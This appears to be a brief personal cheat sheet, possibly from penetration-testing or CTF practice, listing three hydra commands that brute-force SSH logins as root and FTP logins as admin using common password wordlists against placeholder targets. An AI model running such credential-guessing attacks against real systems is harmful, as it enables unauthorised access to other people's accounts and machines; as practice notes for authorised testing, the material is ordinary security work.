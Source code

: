 
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://$IP:22 -t 4 -V
```

```
hydra -L path/to/usernames.txt -P path/to/wordlist.txt <IP> ftp
```

### 2024-05-12-Sun

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://$IP
```


